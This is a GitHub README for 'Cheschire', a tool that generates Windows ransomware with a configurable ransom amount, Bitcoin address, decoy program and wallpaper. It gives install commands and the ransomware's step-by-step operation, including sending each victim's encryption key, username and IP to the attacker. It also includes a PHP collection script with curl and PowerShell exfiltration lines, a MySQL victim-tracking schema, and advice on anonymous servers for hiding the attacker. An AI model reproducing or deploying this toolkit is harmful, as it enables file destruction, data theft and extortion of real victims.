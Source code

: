 # Cheschire

[![Version](https://img.shields.io/badge/Version-1.0-blue.svg?style=for-the-badge)]()
[![Language](https://img.shields.io/badge/Bash-4.2%2B-brightgreen.svg?style=for-the-badge)]()
[![Available](https://img.shields.io/badge/Available-Debian-orange.svg?style=for-the-badge)]()
[![Download](https://img.shields.io/badge/Size-260K-brightgreen.svg?style=for-the-badge)]()
[![License](https://img.shields.io/badge/License-GPL%20v3%2B-red.svg?style=for-the-badge)](https://github.com/hacknonym/Cheschire/blob/master/LICENSE)

### Author: github.com/hacknonym

## A Windows Ransomware

![Banner]()

**Cheschire** generate executable ranwomware for Windows target. #cheschire #ransomware
# Using the AES encryption algorithm powershell module from https://github.com/thelinuxchoice/hidden-cry.git

## Legal disclaimer

Usage of **Cheschire** for attacking targets without prior mutual consent is illegal.
Do not use in military or secret service organizations, or for illegal purposes.
It's the end user's responsibility to obey all applicable local, state and federal laws. 
Developer assume no liability and is not responsible for any misuse or damage caused by this program.

## Features !
 - Specify location where to start encryption *e.g. ($home)*
 - Specify a specific extension *e.g. (.cheschire)*
 - Specify a ransom amount
 - Specify a Bitcoin address
 - Specify a decoy program *e.g. (avast antivirus)*
 - Specify a specific wallpaper
 - Specify speficic extensions *e.g. (.jpg, .docx)*
 - Specify a icon for the main program

## Installation and Usage
Necessary to have root rights
```bash
git clone https://github.com/hacknonym/Cheschire.git
cd Cheschire
sudo chmod +x displaydb.sh
sudo chmod +x listener.sh
sudo chmod +x cheschire.sh
sudo ./cheschire.sh
```
To compile the generated files, use [**Bat_to_Exe_Convertor**.](https://bat-to-exe-converter-x64.en.softonic.com/) 

## Operating steps
**Ransomware (.exe) steps**
- Move to the directory ``` %APPDATA% ```
- Launch of the integrated decoy program, *e.g. avast.exe*
- Creation of the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\Cipher ```
- Move to the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\Cipher ```
- Creation of the file __Cipher.psm1__
- Random generation of an identifier of the form {xxx-xxx-xxx}
- Creation of the file __cry.ps1__
- Launch of the file __cry.ps1__
  * Random generation of a secret key, *e.g. o6nklwri0s4d39hc7gxmzv5qlgy1xc4eu3a2dr7h8i0=*
  * Encoding information in Base64
  * Sending the encoded information (secret key, ID, Date, Time, Username, Computer Name, Public IP) to the hacker via [RequestBin](https://requestbin.io/)
  * Import module __Cipher.psm1__ and start encryption on the specified extensions
- Move to the directory ``` %USERPROFILE%\Desktop ```
- Creation of the file __readme.html__
- Launch of the file __readme.html__
- Copy the file ``` %APPDATA%\decrypt0r.exe ``` to ``` %USERPROFILE%\Desktop\ ```
- Changing the wallpaper with ``` %APPDATA%\wallpaper.jpg ```
- Deleting files embedded in ``` %APPDATA% ``` (avast.exe, wallpaper.jpg, decrypt0r.exe)

**decrypt0r.exe steps**
- Creation of the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ```
- Move to the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ```
- Creation of the file __decry.psm1__
- Creation of the file __decryGUI.ps1__
- Launch of the file __decryGUI.ps1__
  * Opening a graphic window (GUI) to enter the secret key
  * If the field is not empty then we try to decrypt the files and if the files have been decrypted then delete the files (decry.psm1, decryGUI.ps1) in ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ``` otherwise if the field is empty or the key incorrect, nothing happens (closing the window)
  
## Using MySQL DataBase
Creating a new user
```bash
mysql> CREATE USER 'newuser'@'localhost' IDENTIFIED BY 'password';
mysql> GRANT ALL PRIVILEGES ON * . * TO 'newuser'@'localhost';
```
Once the new user has been created, specify credentials in the **ident.txt** file
<br />**Default credentials**
```text
DBNAME : Cheschire
USERNAME : root
PASSWORD : 
```

DATABASE NAME: **Cheschire**
| TABLES |
|  :------:  |
|  Victim  |
|  Country |

**Victim** TABLE
| Field | Type | Null | Key | Default | Extra |
| --- | --- | --- | --- |--- |--- |
| Id_Victim | int(11) | NO | PRI | NULL | auto_increment |
| Date_Compromise | datetime | YES | --- | NULL | --- |
| IP_Address | varchar(15) | YES | --- | NULL | --- |
| ISP | text | YES | --- | NULL | --- |
| Country | varchar(2) | YES | MUL | NULL | --- |
| Region | text | YES | --- | NULL | --- |
| City | text | YES | --- | NULL | --- |
| Timezone | varchar(100) | YES | --- | NULL | --- |
| User_Name | varchar(50) | YES | --- | NULL | --- |
| Computer_Name | varchar(50) | YES | --- | NULL | --- |
| Ident | varchar(17) | YES | --- | NULL | --- |
| Secret_Key |  varchar(45) | YES | --- | NULL | --- |

**Country** TABLE
| Field | Type | Null | Key | Default | Extra |
| --- | --- | --- | --- |--- | --- |
| Id_Country | varchar(2) | NO | PRI | NULL | --- |
| Name | varchar(60) | NO | --- | NULL | --- |

## Why use RequestBin to send information
It is quite possible to send the information through an HTTP request directly to our server without going through a service provider
**index.php**
```php
<?php
if(isset($_GET["query"])){
    $file = fopen("output.txt", "a+");
    fwrite($file, $_GET['query']."\n");
}
?>
```
Launch the server
```bash
$> php -S 0.0.0.0:8080
```
Send a request from Windows (Command Prompt & PowerShell)
```PowerShell
cmd> curl http://<IP_SERVER>:8080/?query=Hello World

PS> (New-Object System.Net.WebClient).DownloadString("http://<IP_SERVER>:8080/?query=" + "Hello World")
```
However for the victim to be able to send information, our server must be accessible
by Internet (if not on the same local network). But by making accessible
the server from the Internet, we expose ourselves to risks concerning our identity.
Indeed, if the victim analyzes his outgoing connection logs, the public IP address of the
remote server (our HTTP server) will be displayed in plain text while sending information.

## Why use Bat_to_Exe_Convertor to compile
For all this to work, we need to have 3 files
- the decryption program (.exe),
- a wallpaper (.jpg)
- a decoy program (.exe).

It is impossible to integrate these three files inside an executable (e.g. in a
C program), it would then be necessary to download them from the Internet
on the target machine (if not on the same local network), but it would be necessary
to take adequate measures regarding the anonymity of the server from which these
files would be downloaded, in this case it is therefore imperative to use
- Relay servers
- Anonymous VPS
- External service providers (e.g. https://www.mediafire.com/, http://ge.tt/, etc.)

In addition, this does not exclude a potential blockage of certain
ports, services, IP addresses due to a firewall, which would prevent us from
download our files.

## Tools Overview
![Create Ransomware](https://user-images.githubusercontent.com/55319869/87853921-5ae67800-c90e-11ea-9c51-f1d5bacc8fdf.png)
![Check & Compile info](https://user-images.githubusercontent.com/55319869/87853923-5c17a500-c90e-11ea-8fb6-c4881e41f270.png)
![DATABASE interactions](https://user-images.githubusercontent.com/55319869/87853925-5d48d200-c90e-11ea-9712-4a5dbb8defe6.png)
![List victims from the DATABASE](https://user-images.githubusercontent.com/55319869/87853926-5e79ff00-c90e-11ea-80a9-730a1275804e.png)
![Number of victims](https://user-images.githubusercontent.com/55319869/87853928-5fab2c00-c90e-11ea-81ec-f220e7daf716.png)

## License
GNU General Public License v3.0 for Cheschire
AUTHOR: @hacknonym

